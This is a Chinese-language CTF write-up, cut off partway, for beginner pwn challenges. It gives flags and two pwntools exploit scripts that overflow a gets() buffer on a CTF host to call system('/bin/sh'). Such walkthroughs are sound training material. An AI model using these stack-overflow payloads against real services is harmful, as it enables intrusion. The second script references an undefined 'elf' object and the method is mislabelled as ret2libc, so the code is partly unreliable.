




## 题目解题过程

### Pwn-Test_You_NC 解题步骤：
如题所示，nc连接

轻松解出flag：``` flag{f1715dfe4eaf4000966cba0d51c777aa}```

### Pwn-ret2function 解题步骤：
将附件丢入IDA pro中

得到代码，发现gets(s) 函数不检查输入长度。
标准的栈溢出，在fun函数中发现有system函数，但是system函数的参数是固定的，所以需要通过ret2libc来调用system函数，从而执行/bin/sh

编写脚本构造payload
```
from pwn import *
context.log_level = 'debug'
context.arch = 'i386' # 32位程序
filename = 'C:\\Users\\CodeAtlantis\\Downloads\\附件\\pwn'
elf = ELF(filename)

io = remote('challenge.qsnctf.com', 45526)

try:
    sys_addr = elf.symbols['system']
    print(f"system address: {hex(sys_addr)}")
except:
    print("Error: 找不到 system 函数符号")
    exit()

try:
    # 尝试搜索 "/bin/sh"
    bin_sh_addr = next(elf.search(b'/bin/sh'))
    print(f"'/bin/sh' address: {hex(bin_sh_addr)}")
except StopIteration:
    try:
        # 如果找不到 /bin/sh，尝试搜索 "sh"
        print("Warning: '/bin/sh' not found, trying 'sh'")
        bin_sh_addr = next(elf.search(b'sh\x00'))
        print(f"'sh' address: {hex(bin_sh_addr)}")
    except StopIteration:
        print("Error: 程序中找不到 '/bin/sh' 或 'sh' 字符串。")
        print("可能需要 Ret2Libc 攻击，这需要更复杂的步骤。")
        exit()

offset = 0x10 + 4

payload = flat([
    b'A' * offset,      # 填充数据，覆盖缓冲区和EBP
    sys_addr,           # 覆盖返回地址，跳转到 system
    0xdeadbeef,         # system 执行完后的返回地址 (随便填，不重要)
    bin_sh_addr         # system 的第一个参数 (指向 "/bin/sh" 的指针)
])

# 6. 发送攻击
io.recvuntil(b'please input:') # 根据题目实际输出调整
io.sendline(payload)

# 7. 交互
io.interactive()
```
运行然后执行命令，然后ls; cat flag;

得到flag：```flag{aaa7e3dd428b4a26bae9aa8b90640b6e}```



### Pwn-ret2function1 解题步骤：
大体同上一题相似
题目明确说是 x86_64，所以脚本里要改成 context.arch = 'amd64'，偏移量是 24
然后加个 ret gadget，凑齐16字节，将栈对齐
脚本：
```
from pwn import *
context.arch = 'amd64'
context.log_level = 'debug'
binary_name = 'C:\\Users\\CodeAtlantis\\Downloads\\app\\pwn'
io = remote('challenge.qsnctf.com', 45529)

try:
    fun_addr = elf.symbols['fun']
except:
    fun_addr = 0x401156

print(f"Target Function Address: {hex(fun_addr)}")

rop = ROP(elf)

ret_addr = rop.find_gadget(['ret'])[0]
print(f"Found RET gadget: {hex(ret_addr)}")

offset = 24

payload = flat([
    b'A' * offset,  # 填充 24 字节
    ret_addr,       # <--- 这里加一个 ret，用于对齐栈 (RSP+8)
    fun_addr        # 最后跳转到 fun (里面调用了 system)
])

io.recvuntil(b'please input:')
io.sendline(payload)

io.interactive()
```
然后不轻松的解出flag

### Pwn-ezpwn 解题步骤：